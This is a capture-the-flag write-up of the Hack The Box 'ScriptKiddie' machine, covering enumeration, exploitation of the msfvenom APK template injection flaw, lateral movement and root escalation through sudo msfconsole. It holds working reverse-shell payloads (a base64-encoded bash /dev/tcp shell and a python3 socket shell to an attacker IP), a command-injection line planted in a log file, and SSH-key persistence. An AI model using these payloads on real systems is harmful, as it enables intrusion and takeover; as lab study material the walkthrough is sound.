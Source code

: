 # HackTheBox: [ScriptKiddie](https://app.hackthebox.com/machines/ScriptKiddie)

## Enumerate

```console
$ nmap -n -sCV -T4 -p1-65535 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 17:35 CDT
Nmap scan report for 10.10.10.226
Host is up (0.26s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 724.14 seconds
```

Port 5000 is running a simple web service on [Werzkzeug](https://werkzeug.palletsprojects.com/en/3.0.x/), a Python `httpd` framework.

There are no apparent exploits available for the services themselves, but the page offers an opportunity:

![](_/htb-scriptkiddie-20231019-1.png)

## Exploit

The `payloads` section offers an opportunity to pass a malicious `msfvenom` template, per [CVE-2020-7384](https://nvd.nist.gov/vuln/detail/CVE-2020-7384). MSF now offers [a module](https://www.exploit-db.com/exploits/49491) to exploit this vulnerability, but I'll use [this script](https://github.com/nikhil1232/CVE-2020-7384/blob/main/CVE-2020-7384.sh) to generate the payload:

```console
$ sh cve-2020-7384.sh 
-e 
\x1B[31mCVE-2020-7384
-e 
Enter the LHOST: 
10.10.16.5
-e 
Enter the LPORT: 
443
-e 
Select the payload type
1. nc
2. bash
3. python
4. python3

select: 2
-e 
Enter the Directory (absolute path) where you would like to save the apk file (Hit Enter to use the current directory): 

  adding: emptyfile (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 90 days
        for: CN="'|echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNS80NDMgMD4mMSIK | base64 -d | sh #"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.
-e 
New APK file Generated
Location: "[...]/exploit.apk"
[...]

$ ls -l exploit.apk 
-rw-r----- 1 e e 2075 Oct 19 13:49 exploit.apk
```

I set up a `nc` listener and the feed `exploit.apk` to the web service:

![](_/htb-scriptkiddie-20231019-2.png)

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.226] 39690
bash: cannot set terminal process group (897): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ cat /home/kid/user.txt
cat /home/kid/user.txt
787100[...]
```

I add my public key to `authorized_keys` to get a proper interactive shell:

```console
kid@scriptkiddie:~/html$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> ~/.ssh/authorized_keys
```

```console
$ ssh kid@$t
[...]
Last login: Wed Feb  3 12:07:35 2021 from 10.10.14.4
kid@scriptkiddie:~$ 
```

## Escalate

From here I see two login users, `kid` and `pwn`. In the latter's home directory there's this script:

```console
kid@scriptkiddie:~$ cat /home/pwn/scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Given that the user `kid` has write access to the input for this script, I'm able to move laterally to the `pwn` user. The script appears to be triggered via [incrond](https://linux.die.net/man/8/incrond). Here's the payload:

```console
kid@scriptkiddie:~$ cat x
1 1 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
kid@scriptkiddie:~$ cat x > logs/hackers
```

On the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.226] 58740
$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> >> .ssh/authorized_keys
sh: 2: cannot create .ssh/authorized_keys: Permission denied
$ mv .ssh/authorized_keys ./
mv .ssh/authorized_keys ./
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> >> .ssh/authorized_keys
echo 'ssh-ed25519
```

The file `.ssh/authorized_keys` was immutable (I'm not sure the mechanism, since `lsattr` didn't have the `i` flag) but I was able to move it out of the way and create a new `authorized_keys` file. Now with a proper shell I check `sudo` privileges:

```console
$ ssh pwn@$t
[...]
Last login: Thu Jan 28 17:52:15 2021 from 10.10.14.7
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ 
```

`msfconsole` is trivially exploitable for a `root` shell:

```console
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q -x /usr/bin/bash
[*] exec: /usr/bin/bash

root@scriptkiddie:/home/pwn# cat /root/root.txt
cb08fe[...]
```

